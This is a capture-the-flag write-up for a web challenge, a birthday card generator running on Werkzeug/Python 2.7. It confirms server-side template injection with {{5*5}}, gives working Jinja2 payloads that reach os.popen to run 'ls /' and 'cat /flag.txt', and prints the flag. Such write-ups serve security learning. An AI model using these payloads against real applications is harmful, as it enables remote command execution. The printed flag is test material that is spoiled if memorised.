 # Happy Birthday Card Generator Challenge

**Points:** 100  
**Category:** Web  

## Task Overview

Explore the functionality of a web-based Happy Birthday Card Generator and identify potential security vulnerabilities.

![Initial Interface](screenshots/happybirthday1.png)

### Initial Exploration

1. **Testing Input:**  
   First, I entered "MD" as input to see how the generator works and it gave the following result.  
   ![Generator Interface](screenshots/happybirthday2.png)
   ![Result of Input](screenshots/happybirthday3.png)

### Server Analysis

2. **Server Identification:**  
   Let's try to find out which server it is deployed on.  
   ![Server Identification](screenshots/happybirthday4.png)

   As it's Werkzeug/1.0.1 Python/2.7.14, we can try Server-Side Template Injection (SSTI).

### Exploiting Server-Side Template Injection (SSTI)

3. **Initial SSTI Test:**  
   We input `{{5*5}}` and got 25 in the output, confirming that SSTI is successful.  
   ![SSTI Test](screenshots/happybirthday5.png)

4. **Executing Commands:**  
   Let's try to run "ls" to list files and directories using the following payload:  
   `{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls /").read()}}` [Payload Credits: https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part]  
   ![Running 'ls' Command](screenshots/happybirthday6.png)

   We can see that flag.txt exists.

5. **Accessing Flag:**  
   We can get its contents by using the following payload:  
   `{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("cat /flag.txt").read()}}`  
   ![Reading Flag.txt](screenshots/happybirthday7.png)

## Flag

`WHETSTONE{SsT1_is_v3ry_6Ad}`

